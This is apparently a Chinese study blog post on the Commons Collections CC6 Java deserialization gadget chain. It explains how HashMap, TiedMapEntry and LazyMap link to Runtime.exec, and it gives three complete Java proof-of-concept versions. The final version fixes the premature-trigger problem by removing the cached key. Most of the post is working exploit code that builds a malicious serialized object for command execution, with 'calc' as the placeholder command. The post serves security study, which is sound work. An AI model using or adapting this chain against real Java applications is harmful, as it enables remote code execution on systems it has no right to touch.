

# 前言

继续跟着P神的《Java安全漫谈》来学习。前面学习了CC1，遇到的问题就是`CC1`用到了`AnnotationInvocationHandler`类，但是`AnnotationInvocationHandler`类的`readObject()`方法在8u71以后逻辑就发生了改变，不能再利用了，所以需要找一个可以解决高版本Java的利用链。

因此也就开始了CC6的学习。CC6解决了高版本Java的限制，而且利用更加通用。总的来说，是在CC5（因为我偶然也学了CC5）的基础上，把前面的链部分又进行了通用性上的拓展。

# 构造和分析

在看了CC6的`Gadget`之后我就对整个链子基本理解了，有点类似URLDNS+CC5的结合，所以都是很熟悉的内容。

```java
 Gadget chain:
 java.io.ObjectInputStream.readObject()
 	java.util.HashMap.readObject()
 		java.util.HashMap.hash()

org.apache.commons.collections.keyvalue.TiedMapEntry.hashCode()

org.apache.commons.collections.keyvalue.TiedMapEntry.getValue()
 org.apache.commons.collections.map.LazyMap.get()

org.apache.commons.collections.functors.ChainedTransformer.transform()

org.apache.commons.collections.functors.InvokerTransformer.transform()
 java.lang.reflect.Method.invoke()
 java.lang.Runtime.exec()
```


看着链子大致就能懂了，反序列化的对象是`HashMap`对象。联想一下`URLDNS`，`HashMap`的`readObject`中调用了`hash()`，`hash()`函数中调用了`key`的`hashCode()`，`TiedMapEntry`的`hashCode()`函数：

```java
    public int hashCode() {
        Object value = getValue();
        return (getKey() == null ? 0 : getKey().hashCode()) ^
               (value == null ? 0 : value.hashCode()); 
    }
```

调用了`getValue()`函数，OK了，这就和CC5的链子接上了，剩下的就不用说了，剩下就是CC5的后半部分了。


然后直接尝试自己构造一波，说说自己慢慢踩坑的过程。

整个POC的构造其实不难，先看一下我最开始构造的：

```java
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.keyvalue.TiedMapEntry;
import org.apache.commons.collections.map.LazyMap;

import java.io.ByteArrayInputStream;
import java.io.ByteArrayOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;
import java.util.HashMap;
import java.util.Map;

public class CommonsCollections6 {
    public static void main(String[] args) throws Exception{
        Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(Class.forName("java.lang.Runtime")),
                new InvokerTransformer(
                        "getMethod",
                        new Class[]{String.class,Class[].class},
                        new Object[]{"getRuntime",new Class[0]}
                ),
                new InvokerTransformer(
                        "invoke",
                        new Class[]{Object.class,Object[].class},
                        new Object[]{null,new Object[0]}
                ),
                new InvokerTransformer(
                        "exec",
                        new Class[]{String.class},
                        new Object[]{"calc"}
                )
        };
        ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);
        Map innerMap = new HashMap();
        Map outerMap = LazyMap.decorate(innerMap,chainedTransformer);

        TiedMapEntry tiedMapEntry = new TiedMapEntry(outerMap,"feng1");
        Map hashMap = new HashMap();

        hashMap.put(tiedMapEntry,"feng2");
        byte[] bytes = serialize(hashMap);
        unserialize(bytes);
    }
    public static void unserialize(byte[] bytes) throws Exception{
        try(ByteArrayInputStream bain = new ByteArrayInputStream(bytes);
            ObjectInputStream oin = new ObjectInputStream(bain)){
            oin.readObject();
        }
    }

    public static byte[] serialize(Object o) throws Exception{
        try(ByteArrayOutputStream baout = new ByteArrayOutputStream();
            ObjectOutputStream oout = new ObjectOutputStream(baout)){
            oout.writeObject(o);
            return baout.toByteArray();
        }
    }
}

```

出现的第一个问题就是，我在这里就直接弹计算器了：

```java
hashMap.put(tiedMapEntry,"feng2");
```

我也没多注意，想的应该是中途某个过程有了影响，也调用了`get()`，感觉很正常。就利用了一下`ysoserial`中的思路，在序列化之前用一个没影响的`Transformer[]`，也就是`fakeTransformers`，最后再改回来：

```java
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.keyvalue.TiedMapEntry;
import org.apache.commons.collections.map.LazyMap;

import java.io.ByteArrayInputStream;
import java.io.ByteArrayOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;
import java.util.HashMap;
import java.util.Map;

public class CommonsCollections6 {
    public static void main(String[] args) throws Exception{
        Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(Class.forName("java.lang.Runtime")),
                new InvokerTransformer(
                        "getMethod",
                        new Class[]{String.class,Class[].class},
                        new Object[]{"getRuntime",new Class[0]}
                ),
                new InvokerTransformer(
                        "invoke",
                        new Class[]{Object.class,Object[].class},
                        new Object[]{null,new Object[0]}
                ),
                new InvokerTransformer(
                        "exec",
                        new Class[]{String.class},
                        new Object[]{"calc"}
                )
        };
        Transformer[] fakeTransformers = new Transformer[]{
                new ConstantTransformer(1)
        };
        ChainedTransformer chainedTransformer = new ChainedTransformer(fakeTransformers);
        Map innerMap = new HashMap();
        Map outerMap = LazyMap.decorate(innerMap,chainedTransformer);

        TiedMapEntry tiedMapEntry = new TiedMapEntry(outerMap,"feng1");
        Map hashMap = new HashMap();

        hashMap.put(tiedMapEntry,"feng2");


        Class clazz = Class.forName("org.apache.commons.collections.functors.ChainedTransformer");
        Field field = clazz.getDeclaredField("iTransformers");
        field.setAccessible(true);
        field.set(chainedTransformer,transformers);
        byte[] bytes = serialize(hashMap);
        unserialize(bytes);


    }
    public static void unserialize(byte[] bytes) throws Exception{
        try(ByteArrayInputStream bain = new ByteArrayInputStream(bytes);
            ObjectInputStream oin = new ObjectInputStream(bain)){
            oin.readObject();
        }
    }

    public static byte[] serialize(Object o) throws Exception{
        try(ByteArrayOutputStream baout = new ByteArrayOutputStream();
            ObjectOutputStream oout = new ObjectOutputStream(baout)){
            oout.writeObject(o);
            return baout.toByteArray();
        }
    }
}

```

这下好了，连计算器都不弹了，打断点再调试一下，发现在调用`get()`方法的时候，我们的`map`属性已经有了这个`key`了，很奇妙。




看一下P神的文章，原来原因还是在这里：

```java
hashMap.put(tiedMapEntry,"feng2");
```


`hashMap`的`put()`方法里也调用了`hash()`函数，相当于把整个漏洞触发的过程提前触发了一遍：

```java
    public V put(K key, V value) {
        return putVal(hash(key), key, value, false, true);
    }
```

虽然这里没有用真正的`transformers`，但是再跟一下：

```java
    static final int hash(Object key) {
        int h;
        return (key == null) ? 0 : (h = key.hashCode()) ^ (h >>> 16);
    }
```


```java
    public int hashCode() {
        Object value = getValue();
        return (getKey() == null ? 0 : getKey().hashCode()) ^
               (value == null ? 0 : value.hashCode()); 
    }
```

```java
    public Object getValue() {
        return map.get(key);
    }
```

```java
    public Object get(Object key) {
        // create value for key if key is not currently in the map
        if (map.containsKey(key) == false) {
            Object value = factory.transform(key);
            map.put(key, value);
            return value;
        }
        return map.get(key);
    }
```

这里的`factory`是：

```java
        Transformer[] fakeTransformers = new Transformer[]{
                new ConstantTransformer(1)
        };
```


所以虽然没触发命令执行，但是返回的`value`是1，然后调用了`map.put("feng1",1)`，把这个键给添加进去了，导致反序列化的时候没法触发漏洞。


解决办法就是添加过之后，再把这个键给移除就好了，最终的简化POC：

```java
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.keyvalue.TiedMapEntry;
import org.apache.commons.collections.map.LazyMap;

import java.io.ByteArrayInputStream;
import java.io.ByteArrayOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;
import java.util.HashMap;
import java.util.Map;

public class CommonsCollections6 {
    public static void main(String[] args) throws Exception{
        Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(Class.forName("java.lang.Runtime")),
                new InvokerTransformer(
                        "getMethod",
                        new Class[]{String.class,Class[].class},
                        new Object[]{"getRuntime",new Class[0]}
                ),
                new InvokerTransformer(
                        "invoke",
                        new Class[]{Object.class,Object[].class},
                        new Object[]{null,new Object[0]}
                ),
                new InvokerTransformer(
                        "exec",
                        new Class[]{String.class},
                        new Object[]{"calc"}
                )
        };
        Transformer[] fakeTransformers = new Transformer[]{
                new ConstantTransformer(1)
        };
        ChainedTransformer chainedTransformer = new ChainedTransformer(fakeTransformers);
        Map innerMap = new HashMap();
        Map outerMap = LazyMap.decorate(innerMap,chainedTransformer);

        TiedMapEntry tiedMapEntry = new TiedMapEntry(outerMap,"feng1");
        Map expMap = new HashMap();

        expMap.put(tiedMapEntry,"feng2");

        outerMap.remove("feng1");

        Class clazz = Class.forName("org.apache.commons.collections.functors.ChainedTransformer");
        Field field = clazz.getDeclaredField("iTransformers");
        field.setAccessible(true);
        field.set(chainedTransformer,transformers);
        byte[] bytes = serialize(expMap);
        unserialize(bytes);
    }
    public static void unserialize(byte[] bytes) throws Exception{
        try(ByteArrayInputStream bain = new ByteArrayInputStream(bytes);
            ObjectInputStream oin = new ObjectInputStream(bain)){
            oin.readObject();
        }
    }

    public static byte[] serialize(Object o) throws Exception{
        try(ByteArrayOutputStream baout = new ByteArrayOutputStream();
            ObjectOutputStream oout = new ObjectOutputStream(baout)){
            oout.writeObject(o);
            return baout.toByteArray();
        }
    }
}

```


# 参考链接

P神的《Java安全漫谈》


